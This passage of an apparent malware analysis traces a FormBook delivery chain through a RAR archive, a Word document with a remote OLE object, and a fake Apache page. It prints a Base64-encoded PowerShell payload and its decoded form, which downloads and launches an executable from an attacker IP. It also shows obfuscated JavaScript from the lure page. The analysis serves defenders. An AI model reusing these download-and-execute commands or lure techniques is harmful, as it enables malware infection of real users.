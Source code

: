 The raw data includes a script job element that can be natively interpreted by the Windows Script Host (WSH). The job element directs WSH to spawn a shell that spawns a hidden PowerShell process which then runs a Base64 encoded PowerShell script. However, the script job element needs to be executed, which isn’t done by double-clicking on the file.

Decoding this string, we can see that a file called abb01.exe is downloaded and executed from 104[.]244[.]78[.]177. This is the same IP address we have observed across all Testing and Production phases.

```
echo "aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA"\ | base64 -D
iex ((new-object system.net.webclient).downloadfile(“http://104[.]244[.]78[.]177/abb01.exe”,”$env:LOCALAPPDATA\dllhostSvc.exe”));Start-Process “$env:LOCALAPPDATA\dllhostSvc.exe”
```

We'll continue to explore this file to identify how the script job is executed. As we displayed above, the file still has the Rar! header, so we can decompress this archive. First, we'll use the unrar program with the e switch to decompress the RAR archive and retrieve the contents: document.docx.

```
$ unrar e Profile.rar
Extracting from Profile.rar
Extracting  document.docx                                             OK
All OK
```

#### document.docx

While Profile.rar appears to be a compressed archive, the PowerShell script won’t download and execute abb01.exe automatically upon decompressing it. To execute that script, the compressed document within Profile.rar, document.docx, must be opened.

Using the same technique as we highlighted in the Testing phase, we decompressed document.docx and examined the document relationship file (word/\_rels/document.xml.rels). As previously described, we observed a remote OLE object stored and formatted as an HTML entity code block that we can decode using CyberChef.

![Decoded document.docx HTML entities](/assets/images/formbook-adopts-cab-less-approach/decoded-document_docx-html-entities.jpg)

We see the same IP address, 104[.]244[.]78[.]177 and a new filename called Profile.html.

#### Profile.html

Based on the HTML code, this initially appeared to be an Apache landing page. However, closer inspection identified another obfuscated JavaScript towards the bottom of the page.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en"><head>
<meta content="text/html; charset=UTF-8" http-equiv="Content-Type" />
<!--
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
                This file is generated from xml source: DO NOT EDIT
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
        -->
<title>Getting Started - Apache HTTP Server Version 2.5</title>
...truncated…
<script>function a(){var l=['wexcKvyUWOi','ntu3ndaWmeHNC0HOsq','nfPrsujOwG','amohWRqfW5xcNSk/r23cO8kClG','
iSkfW5hcTSk4jmk4xmk2W73dSCkjWOq','ndCXnZeXDLf1tKLj','WRSYCcCZzmkmaW','WQzEqb5xWOldVWXBgSkSWRyp','AhrTBgzPBgu',
'W5tdO1L3WOFdISk8W50','u2nYAxb0','lNDZzJOUlI8UlI8UlI9ezxnRDg9Wl1bYB2zPBguUCMfYpY53C2y','iCkEW592W77cNa',
```
